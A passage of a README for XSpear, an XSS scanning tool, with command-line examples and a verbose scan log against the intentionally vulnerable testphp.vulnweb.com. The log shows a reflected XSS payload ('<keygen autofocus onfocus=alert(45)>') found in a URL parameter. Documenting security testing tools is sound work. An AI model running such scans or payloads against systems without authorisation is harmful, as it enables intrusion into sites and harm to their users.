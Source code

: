 ```
you see report
```
**[3] show scanning detail logs**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 3
[*] analysis request..
[-] [22:56:21] [200/OK] http://testphp.vulnweb.com/listproducts.php?cat=123 in url
[ Request ]
{"accept-encoding"=>["gzip;q=1.0,deflate;q=0.6,identity;q=0.3"], "accept"=>["*/*"], "user-agent"=>["Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0"], "connection"=>["keep-alive"], "host"=>["testphp.vulnweb.com"]}
[ Response ]
{"server"=>["nginx/1.4.1"], "date"=>["Sun, 29 Dec 2019 13:53:23 GMT"], "content-type"=>["text/html"], "transfer-encoding"=>["chunked"], "connection"=>["keep-alive"], "x-powered-by"=>["PHP/5.3.10-1~lucid+2uwsgi2"]}
[-] [22:56:21] [200/OK] 'STATIC' not reflected
[-] [22:56:21] [200/OK] cat=123rEfe6 in url
...
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 2 param + blind XSS ]
[*] test query generation is complete. [249 query]
[*] starting XSS Scanning. [10 threads]
...
[ Request ]
{"accept-encoding"=>["gzip;q=1.0,deflate;q=0.6,identity;q=0.3"], "accept"=>["*/*"], "user-agent"=>["Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0"], "connection"=>["keep-alive"], "host"=>["testphp.vulnweb.com"]}
[ Response ]
{"server"=>["nginx/1.4.1"], "date"=>["Sun, 29 Dec 2019 13:54:36 GMT"], "content-type"=>["text/html"], "transfer-encoding"=>["chunked"], "connection"=>["keep-alive"], "x-powered-by"=>["PHP/5.3.10-1~lucid+2uwsgi2"]}
[H] [22:57:33] [200/OK] reflected <keygen autofocus onfocus=alert(45)>[param: cat][reflected onfocus XSS Code]
...
you see report
```
### Case by Case
**Scanning XSS**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -d "searchFor=yy"
```

**Only JSON output**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -d "searchFor=yy" -o json -v 0
```

**Set scanning thread**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -t 30
```

**Testing at selected parameters**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query&cat=123&ppl=1fhhahwul" -p cat,test
```
